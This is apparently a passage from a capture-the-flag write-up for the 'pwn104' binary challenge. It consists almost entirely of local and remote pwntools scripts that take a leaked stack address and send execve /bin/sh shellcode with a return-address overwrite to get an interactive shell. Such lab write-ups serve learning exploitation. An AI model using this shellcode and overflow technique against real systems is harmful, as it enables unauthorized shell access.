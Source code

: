 Shellcode: https://www.exploit-db.com/exploits/42179

## Exploit (local)

Notice how the leaked pointer address was splitted and converted to hexadecimal!
```python
from pwn import *

context.binary = binary = ELF('./pwn104.pwn104')
context.log_level = "debug"
# Size 23B - source: https://www.exploit-db.com/exploits/46907
shellcode=b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
p = process()

addr_leak = p.recv()

addr_buf_pointer = int(addr_leak.split(b"at")[1].strip().decode("utf-8"),16)

#print(addr_buf_pointer)

payload = shellcode + b"A"*(0x50 - len(shellcode)) + b"B"*0x8 + p64(addr_buf_pointer)

p.sendline(payload)

p.interactive()
```

## Exploit (remote)

```python
from pwn import *

context.binary = binary = ELF('./pwn104.pwn104')
#context.log_level = "debug"
# Size 23B - source: https://www.exploit-db.com/exploits/46907
shellcode=b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
p = process()
p = remote("10.10.109.228",9004)

p.recv()
addr_leak = p.recv()

addr_buf_pointer = int(addr_leak.split(b"at")[1].strip().decode("utf-8"),16)

#print(addr_buf_pointer)

payload = shellcode + b"A"*(0x50 - len(shellcode)) + b"B"*0x8 + p64(addr_buf_pointer)

p.sendline(payload)

p.interactive()
```
